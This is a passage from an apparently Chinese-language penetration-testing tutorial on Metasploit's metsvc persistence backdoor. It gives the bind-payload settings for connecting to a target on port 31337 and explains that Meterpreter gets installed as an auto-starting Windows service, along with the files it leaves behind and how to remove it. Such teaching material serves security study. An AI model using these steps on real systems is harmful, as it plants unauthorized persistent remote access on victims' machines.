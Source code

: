      ![metsvc_3](./痕迹清除/metsvc_3.png)

  3. 回连方式：

     ```
     Set rhost 靶机ip
     Set lport 31337[固定端口]
     Set payload windows/metsvc_bind_tcp
     （附：通过该后门得到的session很快会死亡，截至该文档发布仍然未解决这个问题）
     ```

     ![metsvc_4](./痕迹清除/metsvc_4.png)

- **指令解析**

  在31337端口开启meterpreter服务，即将meterpreter以系统服务的形式安装在目标主机上，会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动自动。

  运行成功后可以在指定目录看见上传的metsvc.dll、metsvc-service.exe、metsvc.exe。

  卸载方法：运行指令run metsvc -r

- **“中毒”特征**

